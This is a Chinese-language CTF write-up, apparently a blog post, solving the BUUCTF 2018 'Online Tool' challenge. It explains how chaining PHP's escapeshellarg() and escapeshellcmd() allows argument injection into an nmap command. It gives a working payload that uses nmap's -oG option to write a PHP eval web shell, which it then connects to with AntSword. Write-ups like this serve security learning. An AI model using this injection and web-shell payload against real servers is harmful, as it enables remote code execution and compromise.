

<!--yml
category: 未分类
date: 2022-04-26 14:53:55
-->

# [BUUCTF 2018]Online Tool_Sk1y的博客-CSDN博客

> 来源：[https://blog.csdn.net/RABCDXB/article/details/115360423](https://blog.csdn.net/RABCDXB/article/details/115360423)

**目录**

[[BUUCTF 2018]Online Tool](#%5BBUUCTF%202018%5DOnline%20Tool)

[解题过程](#%E8%A7%A3%E9%A2%98%E8%BF%87%E7%A8%8B)

[参考文章：](#%E5%8F%82%E8%80%83%E6%96%87%E7%AB%A0%EF%BC%9A)

* * *

考点：本题考查的一个点是escapeshellarg()和escapeshellcmd()函数，他们一起用的时候导致的一个漏洞，我把这个理解成一个类似于**sql注入闭合单引号**的一个漏洞。

## 解题过程

打开题目，进行代码审计

```
 <?php
 ​
 if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
     $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
 }
 ​
 if(!isset($_GET['host'])) {
     highlight_file(__FILE__);
 } else {
     $host = $_GET['host'];
     $host = escapeshellarg($host);
     $host = escapeshellcmd($host);
     $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
     echo 'you are in sandbox '.$sandbox;
     @mkdir($sandbox);
     chdir($sandbox);
     echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
 }
```

首先是REMOTE_ADDR和HTTP_X_FORWARDED_FOR，是服务器为了获取ip，在这里不作考虑

重点在下面，我们传入的GET方式传入的host参数，经过`escapeshellarg()和escapeshellcmd()函数，会进行system()进行执行，这就是我们最终想要达成的目标。

**将我们所想要传入的指令cmd传入，绕过过滤，最后执行。**

首先需要了解escapeshellarg()函数和escapeshellcmd()函数，这里推荐一篇博文，讲的很好：[传送门](https://paper.seebug.org/164/)

> 两个函数配合使用就会导致多个参数的注入。
> 
> 我们详细分析一下：
> 
> 1.  传入的参数是：`172.17.0.2' -v -d a=1`
>     
>     
> 2.  经过`escapeshellarg`处理后变成了`'172.17.0.2'\'' -v -d a=1'`，即先对单引号转义，再用单引号将左右两部分括起来从而起到连接的作用。
>     
>     
> 3.  经过`escapeshellcmd`处理后变成`'172.17.0.2'\\'' -v -d a=1\'`，这是因为`escapeshellcmd`对`\`以及最后那个**不配对儿**的引号进行了转义：[http://php.net/manual/zh/function.escapeshellcmd.php](http://php.net/manual/zh/function.escapeshellcmd.php)
>     
>     
> 4.  最后执行的命令是`curl '172.17.0.2'\\'' -v -d a=1\'`，由于中间的`\\`被解释为`\`而不再是转义字符，所以后面的`'`没有被转义，与再后面的`'`配对儿成了一个空白连接符。所以可以简化为`curl 172.17.0.2\ -v -d a=1'`，即向`172.17.0.2\`发起请求，POST 数据为`a=1'`。
>     
>     
> 
> 仔细想想其实这可以算是`escapeshellarg`和`escapeshellcmd`的设计问题，因为先转义参数再转义命令是很正常的想法，但是它们在配合时并没有考虑到单引号带来的隐患。
> 
> 在 PHPMailer 的这次补丁中，作者使用`escapeshellarg`意在防止参数注入，但是却意外的为新漏洞打了助攻，想想也是很有趣的 。

namp命令中有一个参数-oG 可以将命令和结果写到文件中，payload：

```
?host='<?php @eval($_POST["a"]);?> -oG 1.php '
```

返回的木马存放的文件夹名称，我们可以蚁剑连接，密码为a


 蚁剑连接：



flag在根目录下

* * *

我的理解还不是很透彻，所以文章讲得不是很清楚，还是推荐几篇大佬的文章，他们讲得很好。

## 参考文章：

1.[PHP escapeshellarg()+escapeshellcmd() 之殇](https://paper.seebug.org/164/)

2.[沐目_01师傅的博客](https://blog.csdn.net/weixin_44077544/article/details/102835099)

3.[大佬博文](https://blog.csdn.net/qq_26406447/article/details/100711933)